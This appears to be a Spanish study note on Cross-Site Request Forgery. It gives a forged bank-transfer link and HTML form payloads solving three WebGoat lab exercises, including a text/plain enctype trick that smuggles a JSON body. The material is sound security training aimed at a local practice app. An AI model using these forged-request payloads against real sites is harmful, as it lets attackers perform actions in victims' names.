 # Cross-Site Request Forgeries (CSRF)

Permite hacer peticiones a un sitio válido desde otro sitio.

## Ejemplo con GET request
```html
<a href="http://bank.com/transfer?account_number_from=123456789&account_number_to=987654321&amount=100000">View my Pictures!</a>
```

*********************************************************************

## Ejercicio 1

```html
<form accept-charset="UNKNOWN" id="basic-csrf-get" method="POST" name="form1" target="_blank" successcallback="" action="http://127.0.0.1:8080/WebGoat/csrf/basic-get-flag" enctype="application/json;charset=UTF-8">
	<input name="csrf" type="hidden" value="false">
	<input id="send_form" type="submit" name="submit">
</form>

<a href="http://127.0.0.1:8080/WebGoat/csrf/basic-get-flag">Este no funciona porque lo hace a través de GET</a>


<script>
	// Modo automatico
	document.addEventListener("DOMContentLoaded", function() {
		// document.getElementById("send_form").click();
	});
</script>
```

*******************************************************************

## Ejercicio 2

```html
<form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://127.0.0.1:8080/WebGoat/csrf/review">
	<input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
	<input class="form-control" id="reviewStars" name="stars" type="text">
	<input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
	<input type="submit" name="submit" value="Submit review">
</form>
```

*****************************************************************************

No podemos confiar en que no se hará uso de CSRF solamente porque el sitio emplea otro tipo de contenidos. Aunque el tipo de contenido lo detenga por defecto, el servidor debería estar preparado para detener este ataque. 

## Ejercicio 3

```html
<form action="http://127.0.0.1:8080/WebGoat/csrf/feedback/message" method="POST" enctype="text/plain">
	<input name='{"name":"WebGoat","email":"webgoat@webgoat.org","subject":"service","message":"WebGoat is the best!!","ignore_me":"' value='test"}' type='hidden'>
	<input type=submit value=Submit>
</form>
```

# Referencias
+ https://developer.mozilla.org/es/docs/Web/HTTP/Access_control_CORS